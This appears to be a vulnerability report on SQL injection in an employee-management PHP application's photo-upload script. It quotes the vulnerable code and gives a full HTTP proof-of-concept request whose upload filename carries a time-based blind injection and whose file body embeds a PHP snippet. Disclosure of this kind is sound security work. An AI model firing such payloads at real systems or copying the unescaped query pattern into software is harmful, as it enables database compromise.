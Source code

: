 ### Vulnerability file address

`Employee/edit-photo.php` from line 16,The `$location` parameter is controllable and the `$location` is not protected from sql injection, line 18 `$sql = " update tblemployee set photo='$location' where email='$email'";` ,line 20 `mysqli_query($conn, $sql`,line 20 performs a SQL query, causing SQL injection

```php
<?php
include('../inc/topbar.php'); 
if(empty($_SESSION['login_email']))
    {   
      header("Location: ../Account/login.php"); 
    }

if(isset($_POST["btnedit"]))
{


$image= addslashes(file_get_contents($_FILES['userImage']['tmp_name']));
$image_name= addslashes($_FILES['userImage']['name']);
$image_size= getimagesize($_FILES['userImage']['tmp_name']);
move_uploaded_file($_FILES["userImage"]["tmp_name"],"../uploadImage/Profile/" . $_FILES["userImage"]["name"]);			
$location="uploadImage/Profile/" . $_FILES["userImage"]["name"];
			
$sql = " update tblemployee set photo='$location' where email='$email'";
   
   if (mysqli_query($conn, $sql)) {

header("Location: profile.php");
}else{
$_SESSION['error']='Editing Was Not Successful';


}
}
?> 
```

### POC

```http
POST /CMS/php/employee_akpoly/Employee/edit-photo.php HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------55395399231236061983284304644
Content-Length: 356
Origin: http://10.0.0.20:82
Connection: close
Referer: http://10.0.0.20:82/CMS/php/employee_akpoly/Employee/edit-photo.php
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1

-----------------------------55395399231236061983284304644
Content-Disposition: form-data; name="userImage"; filename="1' WHERE 3060=3060 AND (SELECT 9930 FROM (SELECT(SLEEP(5)))upEx)-- jBbv"
Content-Type: image/png

GIF89a<?php echo 123; ?>

-----------------------------55395399231236061983284304644
Content-Disposition: form-data; name="btnedit"


-----------------------------55395399231236061983284304644--

```

### Attack results pictures

![image-20250128231818311](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501282318353.png)